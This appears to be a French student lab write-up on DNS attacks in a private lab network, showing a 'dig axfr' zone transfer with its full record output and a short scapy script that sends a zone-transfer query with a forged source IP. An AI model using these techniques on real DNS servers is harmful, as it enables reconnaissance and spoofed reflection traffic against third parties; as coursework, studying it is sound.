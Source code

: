 ### 1. DNS
🌞 **Requêter l'enregistrement AXFR**
-> permet de récupérer tous les enregistrements DNS d'un domaine donné (pas très sécurisé si c'est activé)
```
[toto@localhost ~]$ dig axfr @dns.tp3.b2 tp3.b2

; <<>> DiG 9.16.23-RH <<>> axfr @dns.tp3.b2 tp3.b2
; (1 server found)
;; global options: +cmd
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2. 86400 IN NS dns.tp3.b2. 
coolsite.tp3.b2. 86400 IN A 10.3.3.4 
dns.tp3.b2. 86400 IN A 10.3.3.1 
meow.tp3.b2. 86400 IN A 10.3.3.6 
prout.tp3.b2. 86400 IN A 10.3.3.5 
supersite.tp3.b2. 86400 IN A 10.3.3.3 
web.tp3.b2. 86400 IN A 10.3.3.2 
web2.tp3.b2. 86400 IN A 10.3.3.4 
web3.tp3.b2. 86400 IN A 10.3.3.5 
web4.tp3.b2. 86400 IN A 10.3.3.6 
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
```

🌞 **Spoof DNS query**
```
from scapy.all import *

answer = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(answer[DNS].summary()) # évidement on aura pas de réponse sur la machine attaquante
```
	
[DNS spoof query](dns_flood.pcapng)

